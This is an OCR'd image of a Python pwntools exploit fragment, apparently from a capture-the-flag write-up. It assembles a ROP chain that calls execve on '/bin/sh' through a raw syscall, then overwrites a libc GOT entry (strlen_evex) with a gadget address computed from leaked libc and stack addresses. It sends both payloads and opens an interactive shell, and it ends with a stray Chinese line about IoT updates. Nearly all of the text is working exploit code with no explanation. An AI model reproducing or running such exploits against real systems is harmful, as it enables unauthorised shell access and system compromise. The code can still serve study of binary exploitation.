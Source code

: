 ```python
ropchain += p64(pop_rdi)
ropchain += p64(binsh_addr)
ropchain += p64(pop_rsi)
ropchain += p64(0)
ropchain += p64(pop_rdx)
ropchain += p64(0)
ropchain += p64(pop_rax)
ropchain += p64(59)
ropchain += p64(syscall)
payload1 = ropchain

strlen_evex_got = 0x7f84ce7bb098 - 0x7f84ce5a2000 + libc_base
stack_offset_base = stack_leak - 0x20
edit_offset = (strlen_evex_got - stack_offset_base) // 8
print(edit_offset)
gadget = libc_base + 0x1144e6

io.sendlineafter(b'one',b'1')
io.sendlineafter(b'recv',payload1)
io.sendlineafter(b'one',str(edit_offset).encode())
io.sendlineafter(b'value',str(gadget).encode())

############################################

io.interactive()
```

IoT 等待更新......
